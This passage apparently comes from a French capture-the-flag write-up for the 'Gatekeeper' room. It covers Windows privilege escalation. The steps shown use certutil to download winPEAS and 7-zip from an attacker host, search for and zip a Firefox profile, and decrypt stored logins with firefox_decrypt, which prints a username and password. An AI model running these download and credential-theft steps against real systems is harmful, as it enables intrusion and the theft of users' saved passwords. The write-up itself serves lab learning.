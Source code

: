 ```

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

## Elevation de privilèges

### WinPEAS

```
certutil.exe -urlcache -split -f http://10.9.11.184/winPEAS.bat
```

=> RAS

### Vol des login/pass du profil firefox

Où est sont stocké les profils Firefox ?

```
C:\Users\natbat>dir key4.db /s
dir key4.db /s
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

04/21/2020  05:02 PM           294,912 key4.db
               1 File(s)        294,912 bytes
```

> C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

Téléchargement de 7-zip

```
certutil.exe -urlcache -split -f http://10.9.11.184/7za.exe
```

Compression du profil FF

```
7za.exe a -tzip ff.zip C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release\*.*
```

Decryptage

https://github.com/unode/firefox_decrypt

```sh
kali@kali:~/thm/gatekeeper/smb$ firefox_decrypt.py ff/
2020-07-09 16:48:53,235 - WARNING - profile.ini not found in ff/
2020-07-09 16:48:53,235 - WARNING - Continuing and assuming 'ff/' is a profile location

Master Password for profile ff/: 
2020-07-09 16:48:57,020 - WARNING - Attempting decryption with no Master Password

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```
